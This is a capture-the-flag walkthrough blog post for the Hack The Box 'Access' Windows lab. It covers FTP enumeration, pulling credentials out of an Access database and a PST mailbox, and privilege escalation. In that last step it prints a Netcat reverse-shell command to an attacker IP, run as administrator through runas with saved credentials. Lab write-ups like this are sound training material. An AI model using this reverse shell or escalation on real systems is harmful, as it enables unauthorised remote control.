 ```yaml
---
title: "Access Walkthrough(Hack The Box)"
date: 2025-04-01
draft: false
description: "A brief walkthrough of Access box from Hack the box"
tags: ["Easy", "Windows", "Hack The Box", "Hacking", "Active Directory", "Walkthrough"]
 
---
```

## Reconnaissance
- On the initial Nmap scan I can see interesting ports open which are FTP, Telnet and a http port(80) 
![Pasted image 20241216220450.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216220450.png?raw=true)
- Quickly I checked for anonymous login and it seems like it was enabled. Whcih was interesting.
- While at that I also discovered that a web page mentions `LON-MC6` which leads to `MS09-042` a vulnerability in Telnet

{{< badge >}} Definition {{< /badge >}}
This security update resolves a publicly disclosed vulnerability in the Microsoft Telnet service. The vulnerability could allow an attacker to obtain credentials and then use them to log back into affected systems. The attacker would then acquire user rights on a system identical to the user rights of the logged-on user. This scenario could ultimately result in remote code execution on affected systems. An attacker who successfully exploited this vulnerability could install programs; view, change, or delete data; or create new accounts with full user rights. Users whose accounts are configured to have fewer user rights on the system could be less impacted than users who operate with administrative user rights.

- Anyway when I try to login FTP, and it worked but after that I can't access any directories it's simply giving timeouts. Which was frustrating
![frustrating](https://media.giphy.com/media/3oEhmI2ggePqhmHoE8/giphy.gif?cid=790b76110k8nd7mxkyobs68ecd2qo6ct0xsok5yl1zy1q2li&ep=v1_gifs_search&rid=giphy.gif&ct=giving)
- After multiple tries atlast I was able to access the files in FTP.

## Enumeration

### Analyzing `backup.mdb`
- While enumerating the directories I found two files interesting one was an db file - `backup.mdb` 
```
> file backup.mdb 
backup.mdb: Microsoft Access Database
```
- To see the contents of the database I installed a tool `sudo apt install mdbtools`
- I can list all the tables using this coomand
```bash
mdb-tables backup.mdb
```
- To get the data from a table I could use this command
```bash
mdb-export backup.mdb <table-name>
```
- From `auth_user` table I got a username and password
```
> mdb-export backup.mdb auth_user
<SNIP>
27,"engineer","access4u@security",1,"02/24/18 1:54:36",26,
<SNIP>
```
![one-down](https://media1.tenor.com/m/VaUHmQW1SNEAAAAd/one-down-saanvi-bahl.gif)

## Exploitation

### Analyzing `Access Control.zip`
- The other file was a compressed zip file - `Access Control.zip`.
- I used this password `access4u@security` for the zip file and extracted it's contents
```bash
7z x Access Control.zip
```
- It had only one file called `Access Control.pst`. I can see that this is a outlook mail file.
- So I used a online `PST` opener and read it's contents
- To keep it simple, It had password for another account. The message reads...
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.                                                                                          

Regards,

John
```
- This username `security` and the password `4Cc3ssC0ntr0ller` works for telnet. So I logged in as user `security`
- Then I got the {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241216231714.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216231714.png?raw=true)

## Privilege Escalation
- Using `cmdkey /list` will show the available and stored creds.
- We can use `runas` for running as something if appropriate constraints are valid. For an example `runas` is similar to `sudo` for windows if not the same.
- Here in this case we got saved creds so first lets transfer `nc.exe` to the target machine
- Then I used this command to save it to a bat file
```bash
echo c:\users\security\nc.exe -e cmd.exe 10.10.14.12 6001 > shell.bat
```
- And execute it with `runas` command with saved creds for the user `administrator`
```bash
runas /user:administrator /savecred c:\users\security\shell.bat
```
- This above command will use the saved password for the user `Administrator` and run the malicious `bat` file as `Administrator`
- I got access as administrator in my shell
- I got {{< keyword >}} Root access {{< /keyword >}}
![Pasted image 20241216233210.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241216233210.png?raw=true)

## Summary
The Access machine from Hack The Box was an easy Windows-based challenge involving FTP access, database extraction, and privilege escalation. Initial enumeration revealed open FTP, Telnet, and HTTP ports, with anonymous FTP login enabled. A Microsoft Access database (backup.mdb) contained credentials, which unlocked a protected ZIP file leading to an Outlook PST file with another set of credentials. Using Telnet, I logged in as security and retrieved the user flag. Privilege escalation was achieved by leveraging stored credentials with cmdkey and runas, executing a Netcat reverse shell to gain administrator access and retrieve the root flag. The box was straightforward but engaging, with a mix of credential discovery and privilege escalation.

{{< typeit >}} This was a good and easy machine and thus short but bomb!, Next walkthrough would be Sightless so be sure to check it out. Bye!. {{< /typeit >}}
![bye](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExOGpxY2VveXNsY3N5cmd0cDhydXNva3I4b3RkMW4yN3ZlanV6MWxxcSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/1Q6K09gcxYWcUxxraT/giphy.gif)
